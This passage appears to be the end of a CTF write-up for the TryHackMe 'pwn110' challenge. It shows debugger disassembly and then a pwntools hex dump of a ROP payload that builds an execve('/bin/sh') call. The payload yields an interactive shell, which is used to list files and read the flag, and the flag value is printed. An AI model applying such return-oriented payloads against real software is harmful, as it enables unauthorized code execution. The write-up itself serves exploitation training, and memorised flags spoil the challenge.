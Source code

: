 ```text
...
   0x47c418 <_dl_get_origin+248>    mov    r12, 0xffffffffffffffff            R12 => 0xffffffffffffffff
   0x47c41f <_dl_get_origin+255>    add    rsp, 0x1008                        RSP => 0x7ffea6f193c0 (0x7ffea6f183b8 + 0x1008)
 ► 0x47c426 <_dl_get_origin+262>    mov    rax, r12                           RAX => 0xffffffffffffffff
   0x47c429 <_dl_get_origin+265>    pop    rbx                                RBX => 0
   0x47c42a <_dl_get_origin+266>    pop    rbp                                RBP => 0
   0x47c42b <_dl_get_origin+267>    pop    r12                                R12 => 0
   0x47c42d <_dl_get_origin+269>    pop    r13                                R13 => 0
   0x47c42f <_dl_get_origin+271>    ret                                <0>

```

## Remote Exploitation

```bash
[DEBUG] Sent 0xa1 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  e0 00 4c 00  00 00 00 00  d7 97 44 00  00 00 00 00  │··L·│····│··D·│····│
    00000030  2f 2f 62 69  6e 2f 73 68  bd e8 46 00  00 00 00 00  │//bi│n/sh│··F·│····│
    00000040  42 42 42 42  42 42 42 42  42 42 42 42  42 42 42 42  │BBBB│BBBB│BBBB│BBBB│
    00000050  42 42 42 42  42 42 42 42  d7 97 44 00  00 00 00 00  │BBBB│BBBB│··D·│····│
    00000060  3b 00 00 00  00 00 00 00  1a 19 40 00  00 00 00 00  │;···│····│··@·│····│
    00000070  e0 00 4c 00  00 00 00 00  60 df 48 00  00 00 00 00  │··L·│····│`·H·│····│
    00000080  00 00 00 00  00 00 00 00  1f 18 40 00  00 00 00 00  │····│····│··@·│····│
    00000090  00 00 00 00  00 00 00 00  d4 73 41 00  00 00 00 00  │····│····│·sA·│····│
    000000a0  0a                                                  │·│
    000000a1
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x19 bytes:
    b'flag.txt\n'
    b'pwn110\n'
    b'pwn110.c\n'
flag.txt
pwn110
pwn110.c
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x19 bytes:
    b'THM{n1c3_us3_0f_g4dg37s}\n'
THM{n1c3_us3_0f_g4dg37s}

```

GG :3

---

[https://github.com/apaonessaa](https://github.com/apaonessaa)

